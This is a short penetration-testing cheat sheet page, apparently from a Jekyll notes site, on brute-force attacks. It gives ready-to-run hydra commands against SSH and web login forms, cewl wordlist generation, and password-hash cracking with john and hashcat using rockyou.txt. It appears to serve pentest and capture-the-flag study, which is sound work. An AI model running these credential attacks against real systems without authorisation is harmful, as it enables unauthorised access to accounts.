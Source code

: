 ```yaml
---
title: Brute Force Attacks
layout: default
nav_order: 5
parent: Exploitation

---
```



# Brute Force Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Bruteforce - SSH (Hydra)
Reference - https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/
Bruteforcing SSH login with hydra
<br/>
<br/>

#### **Single Username and Password**
1. Bruteforce a single username and password
```bash
hydra -l $USER -p $PASSWORD $IP ssh -t $NUM_OF_THREADS
```

#### **Username and password list**
1. Optional: Generate password list via `cewl`. We point `cewl` towards a login page of interest. 
```bash
cewl -w cewl_passlist.txt -d 6 $IP/login.php
```
2. Bruteforce with list
```bash
hydra -L user.txt -P cewl_passlist.txt ssh -t $NUM_OF_THREADS
```


### Bruteforce - HTTP Page (Hydra)

1. Grab the **request body** of the HTTP login page via Chrome DevTools



2. Feed HTTP login into `hydra` with `admin` as the username. We feed `hydra` the `^PASS` variable and `^USER` variable to iterate through usernames and passwords, and the `:F` parameter to a message for incorrect guesses. 

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form '/login:username=^USER^&password=^PASS^:F=Your username or password is wrong.' -V 
```

### Cracking Password Hashes - John
1. echo hash into a text file
```bash
echo <hash> > hash.txt
```
2. Identify the hash type. 
```bash
hashid $(cat hash.txt)
```
3. Crack password via `john`
```bash
john --format=<FORMAT> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Cracking Password Hashes - Hashcat
Reference - https://infosecwriteups.com/cracking-hashes-with-hashcat-2b21c01c18ec

1. echo hash into a text file
```bash
echo <hash> > hash.txt
```
2. Identify the hash type. 
```bash
hashid -m $(cat hash.txt)
```
3. Crack password via `hashcat`
```bash
hashcat -m <MODE_NUMBER> -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```